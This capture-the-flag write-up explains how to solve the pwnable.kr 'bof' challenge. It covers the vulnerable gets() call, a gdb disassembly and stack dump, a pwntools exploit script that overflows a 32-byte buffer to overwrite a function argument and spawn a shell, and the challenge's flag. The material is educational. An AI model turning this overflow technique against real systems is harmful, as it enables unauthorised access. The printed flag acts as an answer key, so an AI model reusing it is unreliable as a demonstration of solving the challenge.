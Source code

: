 # Pwnable.kr: Toddler's Bottle
## bof

This challenge requires us to perform a simple Buffer Overflow attack for overwriting function parameters stored inside of memory.

The C source code for the challenge is shown below, where the vulnerability can be immediately be identified at the *gets(overflowme)* call since *char * gets( char * )* has no array boundary checks and just reads *stdin* until the newline character.

*bof.c*
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Using this vulnerability, we can overflow the stack and overwrite the default *0xdeadbeef* parameter to be *0xcafebabe* in order to bypass the *key == 0xcafebabe* check and get a shell. The final piece to the puzzle is figuring out how big our input should be to overflow the key parameter. I used *gdb* to analyse the stack just before the *key == 0xcafebabe* comparison check, by creating a breakpoint at the CMP machine instruction.

<pre>
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   <b>0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe</b>
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b * func+40
</pre>

Now we can just run the program inside *gdb* and give it an input of 'AAAAAAAA' until the breakpoint to help identify where the buffer is located on the stack. The character 'A' was randomly chosen, since it has an ascii value of 41 which can help us identify where the buffer is.

```
gdb-peda$ x/50wx $esp
0xffffd1c0:	0xffffd1dc	0xffffd2c4	0xf7fb2000	0xf7fb09e0
0xffffd1d0:	0x00000000	0xf7fb2000	0xf7ffc840	<b>0x41414141</b>
0xffffd1e0:	<b>0x41414141	0xf7fb2000	0x00000001	0x5655549d</b>
0xffffd1f0:	<b>0xf7fb23fc	0x00040000	0x56556ff4	0xfb2c4900</b>
0xffffd200:	<b>0x00400000	0x56556ff4	0xffffd228	0x5655569f</b>
0xffffd210:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd220:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7df97e1
0xffffd230:	0x00000001	0xffffd2c4	0xffffd2cc	0xffffd254
0xffffd240:	0x00000001	0x00000000	0xf7fb2000	0x00000000
0xffffd250:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd260:	0x00000000	0x0122c2f7	0x41a9e4e7	0x00000000
0xffffd270:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffd280:	0x00000000	0xf7fe9450
```

The buffer starts at the top *0x41414141* entry in the stack, which is located at 4*13=52 bytes above the *0xdeadbeef* parameter. Therefore our input needs to have 52 bytes before we overflow the parameter. However, since our target system has little-endian ordering we will have to reverse our overflowing value.

We can now write our *pwn* script so that we overflow the buffer by 52 bytes then overwrite the passed parameter to the *func* call.

*bof_pwn.py*
```python
from pwn import *

payload = 52*'A' + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```

Hooray! We have just got our flag!

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$
$ cat flag
daddy, I just pwned a buFFer :)
```
